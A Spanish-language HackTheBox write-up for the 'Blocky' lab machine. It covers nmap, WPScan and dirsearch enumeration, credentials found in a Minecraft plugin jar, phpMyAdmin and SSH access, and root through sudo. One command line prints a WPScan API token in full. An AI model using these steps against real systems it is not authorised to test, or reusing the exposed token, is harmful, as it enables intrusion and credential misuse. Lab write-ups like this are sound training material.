

# Blocky

`Blocky` es bastante simple en general y se basó en una máquina del mundo real. Demuestra los riesgos de las malas prácticas de contraseñas, así como la exposición de archivos internos en un sistema de acceso público. Además de esto, expone un vector de ataque potencial masivo: Minecraft. Existen decenas de miles de servidores que son de acceso público, y la gran mayoría están configurados por administradores de sistemas jóvenes e inexpertos.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Blocky**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.37 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:21 CET
Initiating SYN Stealth Scan at 05:21
Scanning 10.10.10.37 [65535 ports]
Discovered open port 80/tcp on 10.10.10.37
Discovered open port 22/tcp on 10.10.10.37
Discovered open port 21/tcp on 10.10.10.37
SYN Stealth Scan Timing: About 23.45% done; ETC: 05:23 (0:01:41 remaining)
SYN Stealth Scan Timing: About 51.71% done; ETC: 05:23 (0:00:57 remaining)
Discovered open port 25565/tcp on 10.10.10.37
Completed SYN Stealth Scan at 05:23, 101.95s elapsed (65535 total ports)
Nmap scan report for 10.10.10.37
Host is up, received user-set (0.034s latency).
Scanned at 2025-02-05 05:21:46 CET for 102s
Not shown: 65530 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 102.04 seconds
           Raw packets sent: 131142 (5.770MB) | Rcvd: 132 (7.804KB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.37
	[*] Open ports: 21,22,80,25565

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran servicios como FTP o SSH, una página Web del CMS **WordPress** y el servicio de **Minecraft**.

```bash
❯ nmap -sCV -p21,22,80,25565 10.10.10.37 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:24 CET
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.11s latency).

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.8
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (97%), Synology DiskStation Manager 7.X (90%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/a:synology:diskstation_manager:7.1 cpe:/o:linux:linux_kernel:4.4
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.13 - 4.4 (97%), Linux 3.2 - 4.14 (97%), Linux 3.8 - 3.16 (97%), Linux 2.6.32 - 3.13 (91%), Linux 4.4 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.8 (90%), Synology DiskStation Manager 7.1 (Linux 4.4) (90%), Linux 4.9 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   60.96 ms  10.10.16.1
2   144.86 ms blocky.htb (10.10.10.37)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.44 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada.

```bash
❯ cat /etc/hosts | grep 10.10.10.37
10.10.10.37 blocky.htb
```

## Web Enumeration

Al acceder a [http://blocky.htb](http://blocky.htb) verificamos que se trata de una página web de **WordPress** en la cual tiene un blog sobre un servidor de **Minecraft**.

<figure><figcaption></figcaption></figure>

### WordPress Enumeration (WPScan)

Debido a que se trata del CMS de **WordPress**, utilizaremos la herramienta de `wpscan` para realizar una enumeración en busca de vulnerabilidades del CMS.

En el resultado obtenido, verificamos que existen diversas vulnerabilidades y logramos enumerar usuarios del WP.

```bash
❯ wpscan --no-banner --url http://blocky.htb/ --enumerate vt,vp,u --random-user-agent --api-token "3RgqcAfTskXCuHlHqGwlfskcGZIs0srAYo4RsDys0gg"
[+] URL: http://blocky.htb/ [10.10.10.37]
[+] Started: Wed Feb  5 05:28:21 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blocky.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blocky.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blocky.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blocky.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blocky.htb/index.php/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://blocky.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |
 | [!] 87 vulnerabilities identified:
 |
 | [!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
 |     References:
 |      - https://wpscan.com/vulnerability/b3f2f3db-75e4-4d48-ae5e-d4ff172bc093
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295
 |      - https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
 |      - https://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
 |      - https://core.trac.wordpress.org/ticket/25239
 |
 | [!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
 |     Fixed in: 4.8.2
 |     References:
 |      - https://wpscan.com/vulnerability/9b3414c0-b33b-4c55-adff-718ff4c3195d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14723
 |      - https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
 |      - https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
 |
 | [!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
 |     Fixed in: 4.8.2
 |     References:
 |      - https://wpscan.com/vulnerability/571beae9-d92d-4f9b-aa9f-7c94e33683a1
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
 |      - https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/41398
 ..[snip]---
[+] WordPress theme in use: twentyseventeen
 | Location: http://blocky.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://blocky.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:12 <======================================================================================================================================================> (652 / 652) 100.00% Time: 00:00:12
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Wed Feb  5 05:28:43 2025
[+] Requests Done: 715
[+] Cached Requests: 11
[+] Data Sent: 213.202 KB
[+] Data Received: 697.835 KB
[+] Memory used: 296.145 MB
[+] Elapsed time: 00:00:21dir
```

### Information Leakage

Realizaremos una enumeración de directorios y archivos de la página web a través de la herramienta de `dirsearch`. En el resultado obtenido, verificamos que existen diferentes directorios y páginas PHP.

```bash
❯ dirsearch -u 'http://blocky.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Blocky/Blocky/reports/http_blocky.htb/_25-02-05_05-31-05.txt

Target: http://blocky.htb/

[05:31:05] Starting: 
[05:31:56] 200 -    7KB - /license.txt
[05:32:13] 200 -    3KB - /phpmyadmin/doc/html/index.html
[05:32:13] 200 -    3KB - /phpmyadmin/
[05:32:14] 200 -  409B  - /plugins/
[05:32:14] 200 -    3KB - /phpmyadmin/index.php
[05:32:20] 200 -    3KB - /readme.html
[05:32:40] 200 -  256B  - /wiki/
[05:32:40] 200 -    1B  - /wp-admin/admin-ajax.php
[05:32:41] 200 -    0B  - /wp-config.php
[05:32:42] 200 -    0B  - /wp-content/
[05:32:42] 200 -  531B  - /wp-admin/install.php
[05:32:42] 200 -   84B  - /wp-content/plugins/akismet/akismet.php
[05:32:43] 200 -    0B  - /wp-cron.php
[05:32:44] 200 -  453B  - /wp-content/uploads/
[05:32:45] 200 -    1KB - /wp-login.php
[05:33:10] 200 -    4KB - /wp-includes/

Task Completed

```

Revisando de acceder a [http://blocky.htb/plugins/](http://blocky.htb/plugins/), verificamos que nos proporcionan de dos archivos `.jar` de plugins de **Minecraft**.

<figure><figcaption></figcaption></figure>

## Initial Access

### Analyzing a jar file (JADX-GUI)

Analizaremos los archivos `.jar` encontrados en busca de información en el código fuente, para ello utilizaremos la herramienta de `JADX-GUI`.

Al revisar el archivo `BlockyCore.jar` visualizamos unas credenciales en el código fuente, al parecer se tratan de las credenciales de acceso al SQL.

<figure><figcaption></figcaption></figure>

### Accessing PhpMyAdmin with recently found password

En la enumeración de los directorios con`dirsearch`, nos encontramos que `phpmyadmin` se encontraba expuesto.

Por lo tanto, probaremos de acceder a [http://blocky.htb/phpmyadmin](http://blocky.htb/phpmyadmin) con las credenciales encontradas.&#x20;

<figure><figcaption></figcaption></figure>

Al ingresar al `phpMyAdmin` verificamos que existe en la base de datos `wordpress` una tabla llamada `wp_users`.

En los datos que dispone dicha tabla, nos encontramos al usuario`notch` con credenciales en formato hash.

Probamos de intentar crackear ese hash, pero tardaba mucho en intentar crackear el hash y no logramos obtener ningún resultado.

<figure><figcaption></figcaption></figure>

### Trying access on SSH with recently found password

Probamos de acceder al equipo mediante ssh con el usuario `root` y no nos funcionó el acceso, mientras que con el usuario `notch` pudimos acceder sin problemas. Logramos visualizar la flag de **user.txt**.

```bash
❯ ssh root@blocky.htb
root@blocky.htb's password: 
Permission denied, please try again.
root@blocky.htb's password: 

❯ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
d2509c6d347*********************
```

## Privilege Escalation

### Abusing sudoers privilege

Al revisar los grupos en los que se encuentra el usuario `notch`, verificamos que forma parte del grupo `sudo`. Tratamos de acceder como usuario `sudo` y logramos obtener acceso como usuario `root` y visualizar la flag de **root.txt**.


El grupo sudo en Linux permite a los usuarios ejecutar comandos como superusuario (root) usando sudo. Los usuarios dentro de este grupo pueden obtener privilegios elevados temporalmente sin necesidad de cambiar a root.


```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# cd /root
root@Blocky:~# cat root.txt 
828a54064***********************
```
